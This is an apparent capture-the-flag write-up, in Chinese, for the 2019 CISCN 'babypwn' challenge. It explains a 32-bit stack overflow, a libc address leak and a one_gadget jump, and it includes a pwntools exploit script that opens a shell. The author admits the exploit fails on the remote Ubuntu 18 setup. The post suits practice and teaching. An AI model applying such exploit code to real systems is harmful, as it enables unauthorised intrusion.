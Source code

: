 ```yaml
---
title: 2019ciscn华东南babypwn
date: 2019-12-16 15:55:28
tags:
---
```

<!-- more -->
32位程序，开了NX  
![](ciscn2019_es_babypwn1.png)  
溢出函数  
![](ciscn2019_es_babypwn2.png)  
read函数存在溢出，但是溢出字节有点少  
先gdb调试打印出libc基地址，然后用泄露出的真实地址减去libc基地址得到偏移，再用泄露出的真实地址减去偏移即可直接得到libc基地址  
然后直接用one_gadget做一下  
```python  
#coding=utf-8
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
#p=remote("",)
p = process("./pwn")
elf = ELF("./pwn")
libc = elf.libc
p.recvuntil("name?\n")

#gdb.attach(p)
p.send('A'*0x28)

libc_leak = u32(p.recvuntil("\xf7")[-4:])    #泄露出的是libc的真实地址
log.success("libc_leak==>" + hex(libc_leak))
libc_base = libc_leak-0x1b23dc  # offset = 0x1b23dc
log.success("libc_base==>" + hex(libc_base))
one_gadget = libc_base + 0x3ac5c
payload = 'A'*0x28 + p32(0xdeadbeef) + p32(one_gadget)
p.send(payload)

p.interactive()
```  
如果libc版本一样的话就可以直接拿shell了  
但是BUUOJ的题是ubuntu18，一直调都是timeout，然后这个溢出字节比较少的栈迁移的还没学会，先咕了，后续再填坑……  